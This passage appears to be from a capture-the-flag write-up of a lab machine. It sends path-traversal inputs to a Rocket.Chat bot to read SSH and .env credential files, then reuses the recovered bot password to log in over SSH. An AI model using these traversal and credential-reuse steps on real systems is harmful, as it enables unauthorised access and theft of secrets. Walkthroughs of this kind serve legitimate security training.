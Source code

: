 ```bash
list sale/../../../../../home/dwight/.ssh

recyclops file sale/../../../../../home/dwight/bot_restart.sh
```

![image.png]({{ site.baseurl }}/assets/paper/image%2015.png)

```bash
list sale/../../../../../home/dwight/hubot

recyclops file sale/../../../../../home/dwight/hubot/start_bot.sh
```

![image.png]({{ site.baseurl }}/assets/paper/image%2016.png)

```bash
recyclops file sale/../../../../../home/dwight/hubot/.env
```

![image.png]({{ site.baseurl }}/assets/paper/image%2017.png)

We now have password for recyclops. 

```bash
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

Let’s sign in to recyclops:

![image.png]({{ site.baseurl }}/assets/paper/image%2018.png)

Let’s try to ssh in as dwight, since he is the creator of recyclops, see if the password is reused:

```bash
ssh dwight@10.10.11.143

#Queenofblad3s!23
```

![image.png]({{ site.baseurl }}/assets/paper/image%2019.png)

We are in. Let’s start default enumeration:

![image.png]({{ site.baseurl }}/assets/paper/image%2020.png)

We are not in any privileged groups.

Let’s enumerate with linpeas:
